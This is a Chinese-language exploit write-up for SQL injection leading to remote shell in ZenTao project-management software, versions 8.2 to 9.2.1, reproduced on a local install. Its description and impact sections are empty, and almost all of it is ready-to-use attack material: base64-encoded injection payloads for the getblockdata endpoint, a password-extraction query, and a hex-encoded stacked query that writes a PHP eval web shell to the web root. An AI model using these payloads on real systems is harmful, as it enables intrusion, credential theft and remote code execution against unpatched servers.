 禅道 8.2-9.2.1 注入&getshell
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我这里用的官方集成环境版本8.4

    获取版本号：/index.php?mode=getconfig

![](./resource/禅道8.2-9.2.1注入GetShell/media/rId24.jpg)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![](./resource/禅道8.2-9.2.1注入GetShell/media/rId25.jpg)

没路径的报错exp：

    {"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0=

EXP

    提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：<http://127.0.0.1:81/zentao/>

注入显密码：

    {"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

不知道什么原因，本地复现无账号密码回显。。。

![](./resource/禅道8.2-9.2.1注入GetShell/media/rId27.jpg)

前台GetShell：

    {"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

    select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php'

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

    73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

访问之即可在目录下生成hack.php：

image
